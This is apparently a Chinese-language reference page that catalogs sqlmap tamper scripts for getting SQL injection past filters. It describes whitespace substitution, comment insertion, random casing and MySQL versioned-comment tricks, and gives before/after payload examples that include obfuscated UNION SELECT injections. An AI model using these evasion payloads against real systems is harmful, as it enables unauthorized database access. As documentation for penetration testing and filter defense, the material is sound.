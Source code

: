 ### **space2mssqlhash.py**

适用数据库：Microsoft SQL Server  
作用：pounds comment symbol “#” followed by a space character to replace newline

### **space2mysqlblank.py**

适用数据库：MySQL  
测试通过数据库：MySQL 5.1  
作用：将空格替换为其他空格符号`('%09', '%0A', '%0C', '%0D', '%0B')`  
使用脚本前：`tamper('SELECT id FROM users')`  
使用脚本后：`SELECT%0Bid%0DFROM%0Cusers`

### **space2mssqlblank.py**

适用数据库：Microsoft SQL Server  
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005  
作用：将空格随机替换为其他空格符号`('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')`  
使用脚本前：`tamper('SELECT id FROM users')`  
使用脚本后：`SELECT%0Eid%0DFROM%07users`

### **space2comment.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0  
作用：将空格替换为`/**/`  
使用脚本前：`tamper('SELECT id FROM users')`  
使用脚本后：`SELECT/**/id/**/FROM/**/users`

## 绕过关键字检测

### **randomcase.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0  
作用：随机大小写  
使用脚本前：`tamper('INSERT')`  
使用脚本后：`INseRt`

### **versionedkeywords.py**

适用数据库：MySQL  
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11  
作用：注释绕过  
使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`  
使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

### **halfversionedmorekeywords.py**

适用数据库：MySQL < 5.1  
测试通过数据库：MySQL 4.0.18/5.0.22  
作用：在每个关键字前添加 mysql 版本注释  
使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`  
使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`
